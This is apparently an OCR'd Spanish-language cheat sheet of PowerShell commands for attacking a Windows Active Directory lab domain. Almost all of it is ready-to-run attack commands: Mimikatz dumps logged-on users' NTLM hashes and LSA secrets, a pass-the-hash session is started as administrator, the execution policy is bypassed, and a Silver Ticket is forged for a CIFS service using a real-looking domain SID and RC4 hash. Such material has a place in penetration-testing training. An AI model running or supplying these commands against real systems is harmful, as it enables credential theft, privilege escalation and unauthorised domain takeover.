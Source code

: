 **Enumerar todos los posibles tokens**
```powershell
Invoke-TokenManipulation –Enumerate
```

**Mostrar todos los hashes NTLM de los usuarios que han iniciado sesion**
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords"'
```

**Realizar un ataque PtH en una powershell con permisos de Administrador**
```powershell
cd C:\Tools

# Dar permisos de bypass
powershell -ep bypass

# Importar modulo
. .\Invoke-Mimikatz.ps1

# Ataque PtH
Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:research.security.local /ntlm:84398159ce4d01cfe10cf34d5dae3909 /run:powershell.exe"'
```

**En la consola dada, realizamos una busqueda para encontrar la cuenta del sistema que tiene la contraseña de la maquina victima (FQDN)**
```powershell
cd C:\Tools

# Dar permisos de bypass
powershell -ep bypass

# Importar modulo
. .\Invoke-Mimikatz.ps1

# Mostrar la cuenta del sistema victima
Invoke-Mimikatz -Command '"lsadump::lsa /inject"' -Computername prod.research.SECURITY.local
```

**Generar el Silver Ticket en una Powershell Standard**
```powershell
cd C:\Tools

# Dar permisos de bypass
powershell -ep bypass

# Importar modulo
. .\Invoke-Mimikatz.ps1

# Generar Silver Ticket
Invoke-Mimikatz -Command '"kerberos::golden /domain:research.SECURITY.local /sid:S-1-5-21-1693200156-3137632808-1858025440 /target:prod.research.SECURITY.local /service:CIFS /rc4:d5f92467d4425e5f34fb55893e8a7768 /user:administrator /ptt"'
```
